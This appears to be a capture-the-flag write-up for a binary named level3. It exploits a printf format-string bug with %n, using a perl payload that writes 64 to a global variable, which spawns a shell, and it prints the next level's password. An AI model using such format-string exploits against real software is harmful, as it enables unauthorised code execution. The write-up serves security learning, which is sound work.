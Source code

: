 # level3

we have a program named level3
```bash
> ./level3
text  <- user input
text  <- program output
```

If we disass the program, we see a function `v`.

In this function, there is a fgets call, then a printf of the fgets

After the printf, we have a condition
```
;  address of a constant in the data section
if ds:0x804988c == 64 {
	system("/bin/sh")
}
```

We will use a vulnerability of printf with the `%n` option https://www.exploit-db.com/papers/23985.

The goal is to write the value `64` in the address `0x804988c`.

To do this, we will find the offset of the first argument.
```bash
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level3 ; done | grep -B1 2a2a
Index: 4
****2a2a2a2a
```
This mean that we can do
```bash
> echo "AAAA %4\$x" | ./level3
AAAA 41414141
```

If we write the address of the variable that we want to change the value (4 char) + 60 random char and the `%n` option, the value `64` will be writed in the address.

Let's try this:
```bash
> perl -e 'print "\x8c\x98\x04\x08" . "A"x60 . "%4\$n"' > /tmp/args
> cat /tmp/args - | ./level3
...
Wait what?!
# this is the /bin/sh
> cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
